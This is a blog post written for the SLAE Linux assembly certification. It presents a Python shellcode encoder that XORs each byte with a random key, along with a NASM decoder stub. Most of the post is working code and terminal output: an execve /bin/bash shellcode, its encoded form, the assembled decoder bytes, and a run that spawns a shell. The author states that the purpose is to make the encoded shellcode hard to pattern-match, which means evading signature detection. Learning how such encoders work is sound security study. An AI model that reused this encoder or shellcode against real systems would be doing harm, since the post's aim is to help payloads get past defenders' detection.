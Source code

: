 ```yaml
---
layout: post
title: "SLAE Assignment #4 | Shellcode encoder"
date: 2015-10-24
comments: true
categories:
---
```


This post is about writing an encoder in Python for x86 assembly and 
a decoder in x86 NASM.

The encoding technique used is as following:

```
Given n bytes to encode

for each byte generate a random number 0 < and <256
XOR the byte with the randomized number
append the xor'd value and the random number in an array 
where the xor'd value comes first and the random number after
for all other bytes do same operations
```

I've visualised an example in the following gif:

![encoder](/images/encoder.gif)

## Motivation

Compared to an normal XOR decoder where there are an finite number of 
variations of the encoded shellcode this encoding scheme offers a very 
high variation. More exactly there are atleast 255 to the power of n possible 
combinations of the shellcode (depending on how you count) , where n are the number of input bytes.
This means it will be hard to pattern match the encoded shellcode 
while the decoding part still is possible to easily pattern match.

## The encoder code:

```python
import random,sys

random.seed()

sys.argv[1] = sys.argv[1].replace('x','')
sys.argv[1] = sys.argv[1].replace('\\','')
shellcode = bytearray(sys.argv[1].decode('hex'))

#Randomized value to xor byte with
def randXOR():
	return random.randint(1,255)

encoded = ""

encoded2 = ""

for byte in shellcode:
	#We dont want an encoded byte resulting in null
	randVal = randXOR()
	while (randVal^byte) == 0:
		randVal = randXOR()

	print "Byte is: %x xor   \t with:%d \t encoded value: %x" % (byte,randVal,byte^randVal)
	byte ^= randVal #XOR byte with randomized randVal

	#PY version
	#First XOR'd byte from shellcode
	encoded += '\\x'
	encoded += '%02x' % byte
	
	#Second value is randomized XOR value to restore byte
	encoded += '\\x'
	encoded += '%02x' % randVal

	#NASM version
	encoded2+= '0x%02x,' % byte
	encoded2+= '0x%02x,' % randVal

print "\nGiven shellcode size (bytes): %d\nOutput shellcode size (bytes): %d\n" % (len(shellcode),len(encoded)/4)

print "Generated shellcode python/c style:"
print encoded+"\n"
print "Generated shellcode nasm style:"
print encoded2
```

Running example with some verbose output for the interested, input is an execve /bin/bash shellcode:

```bash
root@kali:~/Desktop/SLAE/assignment-4# python encoder.py \x31\xc0\x50\x68\x62\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
Byte is: 31 	xor 	 with:189 	 encoded value: 8c
Byte is: c0 	xor 	 with:237 	 encoded value: 2d
Byte is: 50 	xor 	 with:23 	 encoded value: 47
Byte is: 68 	xor 	 with:83 	 encoded value: 3b
Byte is: 62 	xor 	 with:198 	 encoded value: a4
Byte is: 61 	xor 	 with:135 	 encoded value: e6
Byte is: 73 	xor 	 with:32 	 encoded value: 53
Byte is: 68 	xor 	 with:251 	 encoded value: 93
Byte is: 68 	xor 	 with:19 	 encoded value: 7b
Byte is: 2f 	xor 	 with:252 	 encoded value: d3
Byte is: 2f 	xor 	 with:63 	 encoded value: 10
Byte is: 2f 	xor 	 with:85 	 encoded value: 7a
Byte is: 2f 	xor 	 with:105 	 encoded value: 46
Byte is: 68 	xor 	 with:157 	 encoded value: f5
Byte is: 2f 	xor 	 with:60 	 encoded value: 13
Byte is: 62 	xor 	 with:106 	 encoded value: 8
Byte is: 69 	xor 	 with:48 	 encoded value: 59
Byte is: 6e 	xor 	 with:98 	 encoded value: c
Byte is: 89 	xor 	 with:200 	 encoded value: 41
Byte is: e3 	xor 	 with:146 	 encoded value: 71
Byte is: 50 	xor 	 with:30 	 encoded value: 4e
Byte is: 89 	xor 	 with:227 	 encoded value: 6a
Byte is: e2 	xor 	 with:26 	 encoded value: f8
Byte is: 53 	xor 	 with:211 	 encoded value: 80
Byte is: 89 	xor 	 with:111 	 encoded value: e6
Byte is: e1 	xor 	 with:9 	 encoded value: e8
Byte is: b0 	xor 	 with:247 	 encoded value: 47
Byte is: b 		xor 	 with:218 	 encoded value: d1
Byte is: cd 	xor 	 with:190 	 encoded value: 73
Byte is: 80 	xor 	 with:185 	 encoded value: 39

Given shellcode size (bytes): 30
Output shellcode size (bytes): 60

Generated shellcode python/c style:
\x8c\xbd\x2d\xed\x47\x17\x3b\x53\xa4\xc6\xe6\x87\x53\x20\x93\xfb\x7b\x13\xd3\xfc\x10\x3f\x7a\x55\x46\x69\xf5\x9d\x13\x3c\x08\x6a\x59\x30\x0c\x62\x41\xc8\x71\x92\x4e\x1e\x6a\xe3\xf8\x1a\x80\xd3\xe6\x6f\xe8\x09\x47\xf7\xd1\xda\x73\xbe\x39\xb9

Generated shellcode nasm style:
0x8c,0xbd,0x2d,0xed,0x47,0x17,0x3b,0x53,0xa4,0xc6,0xe6,0x87,0x53,0x20,0x93,0xfb,0x7b,0x13,0xd3,0xfc,0x10,0x3f,0x7a,0x55,0x46,0x69,0xf5,0x9d,0x13,0x3c,0x08,0x6a,0x59,0x30,0x0c,0x62,0x41,0xc8,0x71,0x92,0x4e,0x1e,0x6a,0xe3,0xf8,0x1a,0x80,0xd3,0xe6,0x6f,0xe8,0x09,0x47,0xf7,0xd1,0xda,0x73,0xbe,0x39,0xb9,
```

## The decoding step

The decoding process is quite straightforward, and is most easily 
described in a compact form, compared to the encoding step above:

```
Given n bytes to decode in array D
let writeIndex = 0
let readIndex = 0

while readIndex < n:
	let r1 = D[readIndex]
	let r2 = D[readIndex+1]
	D[writeIndex] = r1 XOR r2
	readIndex+=2
	writeIndex+=1
```

The actual code, with the shellcode encoded in the above step used:

```nasm
global _start

section .text

_start:
	jmp short call_shellcode
	
decoder:
	;esi is base of shellcode array
	pop esi	
	;let ecx be index for where to place read byte
	xor ecx, ecx
	;edx is the index for read byte
	xor edx, edx
	;eax used for short time saving of read byte
	xor eax, eax
decode:
	;Read instruction byte
	mov al, byte [esi+edx]
	;Read byte to xor with
	inc dl
	xor al, byte[esi+edx]
	;increment counter for read byte
	inc dl

	;Write byte in correct location and increment counter
	mov [esi+ecx], al 
	inc ecx
	
	;While edx<shellcodelength, go for loop
	cmp edx, ShellcodeLength
	jb decode
	
	jmp short EncodedShellcode

call_shellcode:
	call decoder

EncodedShellcode: db 0x8c,0xbd,0x2d,0xed,0x47,0x17,0x3b,0x53,0xa4,0xc6,0xe6,0x87,0x53,0x20,0x93,0xfb,0x7b,0x13,0xd3,0xfc,0x10,0x3f,0x7a,0x55,0x46,0x69,0xf5,0x9d,0x13,0x3c,0x08,0x6a,0x59,0x30,0x0c,0x62,0x41,0xc8,0x71,0x92,0x4e,0x1e,0x6a,0xe3,0xf8,0x1a,0x80,0xd3,0xe6,0x6f,0xe8,0x09,0x47,0xf7,0xd1,0xda,0x73,0xbe,0x39,0xb9
ShellcodeLength equ $-EncodedShellcode
```

Compile and run:

```bash
root@kali:~/Desktop/SLAE/assignment-4# ../tools/compile.sh decoder
Done
root@kali:~/Desktop/SLAE/assignment-4# ./decoder 
root@kali:/root/Desktop/SLAE/assignment-4# exit
exit
```

Running in shellcode format and showing that an actual shell is spawned:

```bash
root@kali:~/Desktop/SLAE/assignment-4# ../tools/format_shellcode.py decoder
Python style shellcode:
\xeb\x1c\x5e\x31\xc9\x31\xd2\x31\xc0\x8a\x04\x16\xfe\xc2\x32\x04\x16\xfe\xc2\x88\x04\x0e\x41\x83\xfa\x3c\x72\xed\xeb\x05\xe8\xdf\xff\xff\xff\x8c\xbd\x2d\xed\x47\x17\x3b\x53\xa4\xc6\xe6\x87\x53\x20\x93\xfb\x7b\x13\xd3\xfc\x10\x3f\x7a\x55\x46\x69\xf5\x9d\x13\x3c\x08\x6a\x59\x30\x0c\x62\x41\xc8\x71\x92\x4e\x1e\x6a\xe3\xf8\x1a\x80\xd3\xe6\x6f\xe8\x09\x47\xf7\xd1\xda\x73\xbe\x39\xb9

NASM stylish:
0xeb,0x1c,0x5e,0x31,0xc9,0x31,0xd2,0x31,0xc0,0x8a,0x04,0x16,0xfe,0xc2,0x32,0x04,0x16,0xfe,0xc2,0x88,0x04,0x0e,0x41,0x83,0xfa,0x3c,0x72,0xed,0xeb,0x05,0xe8,0xdf,0xff,0xff,0xff,0x8c,0xbd,0x2d,0xed,0x47,0x17,0x3b,0x53,0xa4,0xc6,0xe6,0x87,0x53,0x20,0x93,0xfb,0x7b,0x13,0xd3,0xfc,0x10,0x3f,0x7a,0x55,0x46,0x69,0xf5,0x9d,0x13,0x3c,0x08,0x6a,0x59,0x30,0x0c,0x62,0x41,0xc8,0x71,0x92,0x4e,0x1e,0x6a,0xe3,0xf8,0x1a,0x80,0xd3,0xe6,0x6f,0xe8,0x09,0x47,0xf7,0xd1,0xda,0x73,0xbe,0x39,0xb9
root@kali:~/Desktop/SLAE/assignment-4# ../tools/runShellcode.py '\xeb\x1c\x5e\x31\xc9\x31\xd2\x31\xc0\x8a\x04\x16\xfe\xc2\x32\x04\x16\xfe\xc2\x88\x04\x0e\x41\x83\xfa\x3c\x72\xed\xeb\x05\xe8\xdf\xff\xff\xff\x8c\xbd\x2d\xed\x47\x17\x3b\x53\xa4\xc6\xe6\x87\x53\x20\x93\xfb\x7b\x13\xd3\xfc\x10\x3f\x7a\x55\x46\x69\xf5\x9d\x13\x3c\x08\x6a\x59\x30\x0c\x62\x41\xc8\x71\x92\x4e\x1e\x6a\xe3\xf8\x1a\x80\xd3\xe6\x6f\xe8\x09\x47\xf7\xd1\xda\x73\xbe\x39\xb9'
root@kali:/root/Desktop/SLAE/assignment-4# ps
  PID TTY          TIME CMD
 3112 pts/0    00:00:00 bash
 5803 pts/0    00:00:00 bash
 5847 pts/0    00:00:00 ps
root@kali:/root/Desktop/SLAE/assignment-4# exit
exit
root@kali:~/Desktop/SLAE/assignment-4# ps
  PID TTY          TIME CMD
 3112 pts/0    00:00:00 bash
 5848 pts/0    00:00:00 ps
```

---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569
